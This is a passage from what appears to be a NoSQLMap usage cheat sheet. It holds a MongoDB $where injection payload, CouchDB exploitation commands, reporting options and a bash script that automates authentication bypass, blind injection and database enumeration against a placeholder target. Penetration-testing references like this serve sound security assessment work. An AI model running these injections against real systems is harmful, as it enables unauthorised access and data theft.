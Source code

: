 ```javascript
// JavaScript execution
{"$where": "function(){return true;}"}
```

## CouchDB Exploitation

```bash
# View enumeration
python nosqlmap.py -t http://target.com:5984/db -p view --couchdb-views

# Design document access
python nosqlmap.py -t http://target.com:5984/db -p doc --couchdb-design

# Mango query injection
python nosqlmap.py -t http://target.com:5984/db -p query --couchdb-mango

# Replication exploitation
python nosqlmap.py -t http://target.com:5984 -p source --couchdb-repl
```

## Output and Reporting

```bash
# Verbose output
python nosqlmap.py -t http://target.com/api -p query -v

# Save results to file
python nosqlmap.py -t http://target.com/api -p query --output results.json

# HTML report generation
python nosqlmap.py -t http://target.com/api -p query --report-html report.html

# CSV export
python nosqlmap.py -t http://target.com/api -p query --export-csv data.csv
```

## Automated Testing Scripts

### Comprehensive NoSQL assessment
```bash
#!/bin/bash
TARGET="http://target.com"
PARAMS="username,password,query,filter,search"

echo "Starting NoSQL injection assessment for $TARGET"

# Authentication bypass testing
python nosqlmap.py -t "$TARGET/login" -p "$PARAMS" --auth-bypass --output auth_bypass.json

# Blind injection testing
python nosqlmap.py -t "$TARGET/api" -p "$PARAMS" --technique blind-boolean --output blind_test.json

# Database enumeration
python nosqlmap.py -t "$TARGET/api" -p "$PARAMS" --enumerate-dbs --output db_enum.json

# Generate comprehensive report
python nosqlmap.py -t "$TARGET" -p "$PARAMS" --full-scan --report-html full_report.html

echo "Assessment complete. Check output files for results."
```
